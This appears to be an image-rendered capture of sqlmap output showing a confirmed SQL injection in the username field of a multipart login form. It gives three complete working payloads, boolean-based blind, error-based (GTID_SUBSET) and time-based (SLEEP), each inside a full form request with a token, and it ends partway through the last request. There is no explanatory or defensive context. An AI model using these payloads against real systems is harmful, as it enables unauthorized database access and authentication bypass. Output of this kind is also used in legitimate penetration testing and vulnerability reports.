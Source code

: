 ```sql
[04:18:00] [INFO] (custom) POST parameter 'MULTIPART username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter 'MULTIPART username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 168 HTTP(s) requests:
---
Parameter: MULTIPART username ((custom) POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: ------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="_token"

27hoFiHGwgBmFVxPb9kfeImpIdo4HVzaxzxtDsZ5
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="username"

test' AND 7560=(SELECT (CASE WHEN (7560=7560) THEN 7560 ELSE (SELECT 2530 UNION SELECT 9167) END))-- - 
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="password"

test
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="dType"

loginRequest
------WebKitFormBoundary8LPrCAt0EnCfI1Cc--

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: ------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="_token"

27hoFiHGwgBmFVxPb9kfeImpIdo4HVzaxzxtDsZ5
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="username"

test' AND GTID_SUBSET(CONCAT(0x716a706a71,(SELECT (ELT(6980=6980,1))),0x71716a7671),6980)-- DRlX
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="password"

test
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="dType"

loginRequest
------WebKitFormBoundary8LPrCAt0EnCfI1Cc--

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="_token"

27hoFiHGwgBmFVxPb9kfeImpIdo4HVzaxzxtDsZ5
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="username"

test' AND (SELECT 5271 FROM (SELECT(SLEEP(5)))fiSS)-- ivZk
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
Content-Disposition: form-data; name="password"

test
------WebKitFormBoundary8LPrCAt0EnCfI1Cc
```